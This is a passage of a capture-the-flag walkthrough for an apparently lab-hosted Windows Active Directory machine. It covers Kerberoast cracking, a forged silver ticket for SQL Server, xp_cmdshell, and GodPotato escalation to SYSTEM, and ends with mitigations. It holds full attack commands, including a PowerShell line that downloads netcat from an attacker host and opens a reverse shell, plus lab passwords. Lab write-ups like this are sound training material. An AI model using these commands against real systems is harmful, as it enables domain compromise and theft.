e5a2f1c2cab199fcf595b5abecbc1ce2e9bbf1970782e352b7096b9468a8ab5378609030195e5c54bed8daee8352dd292877fc58f97ebb0584383928a6b0f17a4c65fd699ff1d141c8d83685c70e5f77a03f5ee397f0ccbd419da06585786839e6407a75e7e16cd9b0140fc1f5ba2a66f21c40bf31819c21609b981aecdfa09a63142a9f905a3d3b3236d398900b9af773029063e528ddc536c2c06064919291e1ae46c4c6de33aa68ad1ef0a1ccf7bd698afd01c2f2f4dcfd7cdd0b2ae5d1ec8ab9c6bceeb671a269ec3f277b170c9517ae99ffe7166c269287b0f7fe3344688374498c9f4c281f270a8e02f1110d4dfd74765a654a5ef0a7d4a50b1e9080a71dd1da14a04831b06d0a25404fb5911712e2627831a056e898c4abae7d219e05e742767c611777fa989a7473fc54eb33985e344266f1804c363fc868bd5fb6a920408b5414216132c9f6d60ef11fd88b4d99bd274320d7364e9b6a96164e2cabfebace04f5c5e95f77f9e81ac692b6fb8b81e8ffeca01c2ba9069996d7406e11d03a0983ef8997863450ceae791d7748901635550a0da781b82ccbf2b4a0e27efa940cdcf97615138f1e35f7e6b41320252deb1f3f54ba0a0f7d0156d4f994f610ee635fd5cbb05f0b207538ae52963eded0a38be9d470d00cdd020a635ac594f218bcc87e6f546e981f910e43636f0b7aa35698d193d470c666d95149dc15af259f100b1d43d0203d1fb6e07df56b603e61074decda85c47d26053ec5ca6359efa9f714c610a8d3d7ce8fb8d8dca20d254b5efac58fd420ab8e4007e42e5d7986658cc13b' > svc_mssql_hash.txt
```

### Cracking with Hashcat

```bash
hyena@hyena$ hashcat -m 13100 svc_mssql_hash.txt /usr/share/wordlists/rockyou.txt -o cracked.txt --force
```

**Hashcat Mode 13100:** Kerberos 5 TGS-REP (Kerberoasting)

```
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*svc_mssql$BREACH.VL$breach.vl/svc_mssq...8cc13b
Recovered........: 1/1 (100.00%) Digests (total)
```

### The Cracked Password

```bash
hyena@hyena$ cat cracked.txt
$krb5tgs$23$*svc_mssql$BREACH.VL$breach.vl/svc_mssql*$44993fd3c78c5bd5763aabf19eddc704$...:Trustno1
```

**Password:** `Trustno1`

---

## Silver Ticket Attack

### What is a Silver Ticket?

A Silver Ticket is a forged Kerberos ticket for a specific service. Unlike a Golden Ticket (which targets the Domain Controller), a Silver Ticket targets a specific service account. If we know the NTLM hash of a service account, we can create a ticket that grants us access to that service as any user, including Administrator.

### Getting the NTLM Hash

```bash
hyena@hyena$ pypykatz crypto nt Trustno1
69596c7aa1e8daee17f8e78870e25a5c
```

### Getting the Domain SID

```bash
hyena@hyena$ rpcclient -U "breach.vl/julia.wong%Computer1" 10.129.117.165 -c "lsaquery"
Domain Name: BREACH
Domain Sid: S-1-5-21-2330692793-3312915120-706255856
```

### Creating the Silver Ticket

```bash
hyena@hyena$ ticketer.py -spn MSSQLSvc/breachdc.breach.vl -domain-sid S-1-5-21-2330692793-3312915120-706255856 -nthash 69596c7aa1e8daee17f8e78870e25a5c -domain breach.vl -user-id 500 Administrator
```

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for breach.vl/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

**Command Breakdown:**

| Part | What It Does |
|------|--------------|
| `ticketer.py` | Creates Kerberos tickets |
| `-spn MSSQLSvc/breachdc.breach.vl` | The service we want to access (SQL Server) |
| `-domain-sid S-1-5-21-2330692793-3312915120-706255856` | Domain SID (from rpcclient) |
| `-nthash 69596c7aa1e8daee17f8e78870e25a5c` | NTLM hash of svc_mssql |
| `-domain breach.vl` | Domain name |
| `-user-id 500` | RID of Administrator |
| `Administrator` | User to impersonate |

---

## SQL Server Access

### Connecting as Administrator

```bash
hyena@hyena$ export KRB5CCNAME=Administrator.ccache
hyena@hyena$ mssqlclient.py -k -no-pass -windows-auth breachdc.breach.vl
```



```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (BREACH\Administrator dbo@master)>
```

### Enabling xp_cmdshell

```sql
SQL (BREACH\Administrator dbo@master)> EXEC sp_configure 'show advanced options', 1;
INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (BREACH\Administrator dbo@master)> RECONFIGURE;
SQL (BREACH\Administrator dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.

SQL (BREACH\Administrator dbo@master)> RECONFIGURE;
```

### Testing Command Execution

```sql
SQL (BREACH\Administrator dbo@master)> EXEC xp_cmdshell 'whoami';
output
----------------
breach\svc_mssql
```

**Note:** The command runs as `svc_mssql`, not Administrator. This is expected because the SQL Server service runs under the `svc_mssql` account.

---

## Reverse Shell

### Getting a Reverse Shell

```sql
SQL (BREACH\Administrator dbo@master)> EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.14.14:8000/nc64.exe -OutFile C:\ProgramData\nc.exe; C:\ProgramData\nc.exe 10.10.14.14 4444 -e cmd.exe"';
```

### Catching the Shell

```bash
hyena@hyena$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.117.165] 51534
Microsoft Windows [Version 10.0.20348.558]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
breach\svc_mssql
```

---

## Privilege Escalation to SYSTEM

### Checking Privileges

```cmd
C:\Windows\system32> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

**Critical Finding:** `SeImpersonatePrivilege` is enabled. This allows us to impersonate other users, including SYSTEM.

### Using GodPotato for SYSTEM

GodPotato is a privilege escalation tool that exploits `SeImpersonatePrivilege` to obtain a SYSTEM shell.

**Download GodPotato:**

```bash
hyena@hyena$ wget https://github.com/BeichenDream/GodPotato/releases/download/v1.20/GodPotato-NET4.exe -O GodPotato.exe
```

**Start HTTP Server:**

```bash
hyena@hyena$ sudo python3 -m http.server 80
```

**Transfer and Execute:**

```powershell
PS C:\Windows\system32> cd \windows\tasks
PS C:\windows\tasks> curl http://10.10.14.14/GodPotato.exe -o GodPotato.exe
PS C:\windows\tasks> .\GodPotato.exe -cmd "cmd /c C:\ProgramData\nc.exe 10.10.14.14 9090 -e cmd.exe"
```

**GodPotato Output:**

```
[*] CombaseModule: 0x140705582153728
[*] DispatchTable: 0x140705584744312
[*] UseProtseqFunction: 0x140705584036656
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\068fe187-e6df-4f5e-9962-cbf57e927fe6\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000b002-1498-ffff-91e5-d4660aabc8ab
[*] DCOM obj OXID: 0x79ce9f416856e982
[*] DCOM obj OID: 0xdfdb3e1eb900e79d
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 928 Token:0x748  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 6236
```

### SYSTEM Shell

```bash
hyena@hyena$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.117.165] 51682
Microsoft Windows [Version 10.0.20348.558]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\Tasks> whoami
nt authority\system
```

---

## Root Flag

### Finding the Root Flag

```cmd
C:\Windows\Tasks> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> dir
C:\Users\Administrator\Desktop> type root.txt
```

**Root Flag:** `[REDACTED]`

---

## Final Results

| Flag | Status |
|:--|:--|
| **User Flag** | ✅ Captured: `55d33e52bc5fa7a687b9f0dcfa103dda` |
| **Root Flag** | ✅ Captured |



---

## Attack Chain Summary

```
Nmap Scan → Service Discovery → Domain Identification
    ↓
SMB Guest Access → share (READ, WRITE)
    ↓
Upload exploit.url → Responder captures NTLM hash
    ↓
Hashcat cracks hash → Julia.Wong:Computer1
    ↓
SMB Login → user.txt (User Flag)
    ↓
RID Brute Force → svc_mssql discovered
    ↓
BloodHound → svc_mssql is Kerberoastable
    ↓
GetUserSPNs.py → Request TGS ticket
    ↓
Hashcat cracks TGS → Trustno1
    ↓
Silver Ticket → Impersonate Administrator
    ↓
mssqlclient.py → SQL Server Access
    ↓
Enable xp_cmdshell → Command Execution
    ↓
Reverse Shell → svc_mssql shell
    ↓
GodPotato → SYSTEM shell
    ↓
Root Flag → Complete Compromise
```

---

## Mitigations & Security Recommendations

1. **Disable Guest/Null SMB Access**: Remove guest permissions on SMB shares. The `share` share had READ, WRITE permissions for guest users, allowing arbitrary file uploads.

2. **Remove or Secure the `share` Share**: Audit all SMB shares and ensure that sensitive data is not accessible to unauthenticated users.

3. **Enforce Strong Password Policies**: Users like `Julia.Wong` and `svc_mssql` had weak passwords (`Computer1`, `Trustno1`). Implement strong password policies and enforce regular password changes.

4. **Disable NTLM Authentication**: NTLM is vulnerable to hash capture and relay attacks. Use Kerberos exclusively where possible, or enable Extended Protection for Authentication.

5. **Monitor for NTLM Hash Capture Attacks**: Alert on unusual NTLM authentication attempts, especially to non-corporate IP addresses.

6. **Restrict Service Account Privileges**: The `svc_mssql` account had `SeImpersonatePrivilege`, which allowed privilege escalation to SYSTEM. Service accounts should have the minimum privileges required.

7. **Implement Kerberos Ticket Monitoring**: Monitor for abnormal TGS ticket requests, especially from non-admin users. This can help detect Kerberoasting attacks.

8. **Regularly Review SPNs**: Service accounts with SPNs should have strong, complex passwords. Consider using Group Managed Service Accounts (gMSAs) for automated password management.

9. **Monitor for Silver Ticket Attacks**: Alert on unusual authentication patterns to high-value services (like SQL Server) that don't go through the Domain Controller.
